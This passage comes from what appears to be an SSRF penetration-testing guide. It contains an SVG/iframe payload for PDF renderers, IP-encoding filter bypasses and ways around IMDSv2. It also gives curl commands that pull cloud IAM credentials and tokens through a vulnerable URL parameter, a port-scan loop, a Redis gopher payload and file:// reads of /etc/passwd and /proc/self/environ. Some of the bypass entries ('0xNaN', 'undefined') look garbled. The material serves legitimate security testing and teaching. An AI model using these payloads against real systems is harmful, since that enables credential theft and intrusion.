


### PDF SSRF Exploitation

When SSRF occurs in PDF rendering functionality, SVG can be used to exploit it:

```xml
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="highcharts-root" width="800" height="500">
    <g>
        <foreignObject width="800" height="500">
            <body xmlns="http://www.w3.org/1999/xhtml">
                <iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
            </body>
        </foreignObject>
    </g>
</svg>
```

### Additional IP Representation Bypasses

```
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://%73%68%6d%69%6c%6f%6e%2e%63%6f%6d
http://0330.072.0326.0343
http://033016553343
http://0x0NaN0NaN
http://0xNaN.0xaN0NaN
http://0xNaN.0xNa0x0NaN
http://shmilon.0xNaN.undefined.undefined
http://NaN
http://0NaN
http://0NaN.0NaN
```

## Vulnerabilities

### Common SSRF Vulnerabilities

#### Cloud Metadata Access

- **AWS**: `http://169.254.169.254/latest/meta-data/` (IMDSv2 is now default; first acquire a session token with `PUT /latest/api/token` and include it in `X-aws-ec2-metadata-token`)

**AWS IMDSv2 Session Token Bypass Techniques:**

Many SSRF filters block `169.254.169.254` but miss the two-step IMDSv2 flow:

```python
# Step 1: Obtain session token (requires PUT request)
PUT http://169.254.169.254/latest/api/token
X-aws-ec2-metadata-token-ttl-seconds: 21600

# If application supports PUT via SSRF parameter:
# Example 1: Via parameter that accepts methods
POST /api/fetch
{
  "url": "http://169.254.169.254/latest/api/token",
  "method": "PUT",
  "headers": {"X-aws-ec2-metadata-token-ttl-seconds": "21600"}
}

# Example 2: Via URL scheme that triggers PUT
http://vulnerable.com/proxy?url=http://169.254.169.254/latest/api/token&method=PUT

# Step 2: Use token to access metadata
GET http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE
X-aws-ec2-metadata-token: <TOKEN_FROM_STEP1>
```

**IMDSv2 Bypass Scenarios:**

1. Application supports custom HTTP methods in SSRF
2. Server-side HTTP client uses method from request parameter
3. HTTP parameter pollution (mixing GET with PUT semantics)
4. SSRF through applications that intentionally support PUT (webhooks, API gateways)
5. Vulnerable proxy servers that forward method override headers (`X-HTTP-Method-Override: PUT`)

- **Azure**: `http://169.254.169.254/metadata/instance` (requires header `Metadata: true` and `api-version`; alternate IP `http://168.63.129.16/metadata/instance`)
- **DigitalOcean**: `http://169.254.169.254/metadata/v1.json`
- **Equinix Metal**: `http://169.254.169.254/metadata` (legacy `metadata.packet.net` now redirects here)
- **Google Cloud**: `http://metadata.google.internal/computeMetadata/v1/`
- **Oracle Cloud**: `http://169.254.169.254/opc/v1/instance/`

#### Internal Service Exposure

- **Admin Interfaces**: `http://localhost:8080/admin`
- **Databases**: `http://localhost:3306`, `http://localhost:27017`
- **Caching Servers**: `http://localhost:6379` (Redis)
- **Management APIs**: `http://localhost:8500` (Consul)
- **Development Servers**: `http://localhost:3000`, `http://localhost:8000`

#### Protocol Abuse

- **File Protocol**: `file:///etc/passwd`
- **Dict Protocol**: `dict://localhost:6379/info`
- **Gopher Protocol**: `gopher://localhost:25/`
- **TFTP Protocol**: `tftp://localhost:69/`
- **LDAP Protocol**: `ldap://localhost:389/`
- **HTTP/2 Coalescing**: Re-used TLS connections between SAN-matched hostnames can bypass host-based filters
- **h2c Upgrade**: Clear-text HTTP/2 upgrade (`PRI * HTTP/2.0`) may slip past scheme filters
- **IPv6‑mapped IPv4**: `http://[::ffff:127.0.0.1]` and `http://[::ffff:7f00:1]`
- **Zone‑scoped IPv6**: `http://[fe80::1%25lo0]:80` may confuse naive validators



### Common SSRF Parameters

```
url, dest, redirect, uri, path, continue, window, next, data, reference,
site, html, val, validate, domain, callback, return, page, feed, host,
port, to, out, view, dir, origin, source, endpoint, proxy, fetch, img_url
link, site_url, media_url
```

## Methodologies

### Tools

- **Burp Suite Extensions**:
  - Collaborator
  - SSRF Scanner
  - Param Miner
  - Turbo Intruder
- **Specialized SSRF Tools**:
  - SSRFmap
  - Gopherus
  - SSRF Sheriff
  - Interactsh
- **Network Utilities**:
  - Netcat
  - TCPDump
  - Wireshark
- **Payload Generators**:
  - PayloadsAllTheThings (SSRF section)
  - FuzzDB

### Testing Process



#### Initial Discovery

1. Map all application entry points accepting URLs or file paths
2. Set up out-of-band detection server (e.g., Burp Collaborator)
3. Test with benign external URL (e.g., `https://your-server.com/ssrf-test`)
4. Analyze responses and check for callbacks

#### Vulnerability Confirmation

1. Test access to common internal resources:

   ```
   http://localhost/
   http://127.0.0.1:22/
   http://127.0.0.1:3306/
   http://169.254.169.254/
   ```

2. Test for blind SSRF using time delays:

   ```
   http://slowwly.robertomurray.co.uk/delay/5000/url/http://www.google.com
   ```

3. Confirm protocol support:
   ```
   file:///etc/passwd
   gopher://localhost:25/xHELO%20localhost
   ```

#### Exploitation

1. **Port Scanning**:

   ```
   for port in {1..65535}; do
     curl -s "https://target.com/api?url=http://localhost:$port" -o /dev/null
     if [ $? -eq 0 ]; then echo "Port $port is open"; fi
   done
   ```

2. **Cloud Metadata Access**:

   ```
   # AWS
    # IMDSv2 requires first fetching a token
    curl -s -X PUT "https://target.com/api?url=http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
    # then include it
    curl -s "https://target.com/api?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE" -H "X-aws-ec2-metadata-token: TOKEN"
   # Then query the specific role
   curl -s "https://target.com/api?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME"

   # GCP
   curl -s "https://target.com/api?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"

    # Azure
    curl -s "https://target.com/api?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01" -H "Metadata: true"
   ```

3. **Gopher Protocol Exploitation** (Redis example):

   ```
   gopher://127.0.0.1:6379/_SET%20ssrfkey%20%22Hello%20SSRF%22%0D%0ACONFIG%20SET%20dir%20%2Ftmp%2F%0D%0ACONFIG%20SET%20dbfilename%20redis.dump%0D%0ASAVE%0D%0AQUIT
   ```

4. **File Access**:
   ```
   file:///etc/passwd
   file:///proc/self/environ
   file:///var/www/html/config.php
   ```

